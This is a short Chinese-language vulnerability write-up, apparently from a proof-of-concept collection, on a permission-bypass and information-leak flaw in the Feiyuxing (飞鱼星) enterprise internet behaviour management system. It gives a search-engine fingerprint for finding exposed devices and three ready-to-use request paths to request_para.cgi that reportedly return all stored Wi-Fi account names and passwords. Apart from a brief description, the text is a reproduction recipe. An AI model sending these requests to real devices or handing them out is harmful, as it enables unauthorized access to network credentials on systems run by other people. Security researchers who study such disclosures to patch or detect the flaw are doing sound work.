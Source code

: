 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

```
飞鱼星 企业级智能上网行为管理系统
```

## 网络测绘

```
title="飞鱼星企业级智能上网行为管理系统"
```

## 漏洞复现

权限绕过参考上一篇 **飞鱼星 家用智能路由 cookie.cgi 权限绕过**

信息泄露POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```



![](images/202202162236795.png)





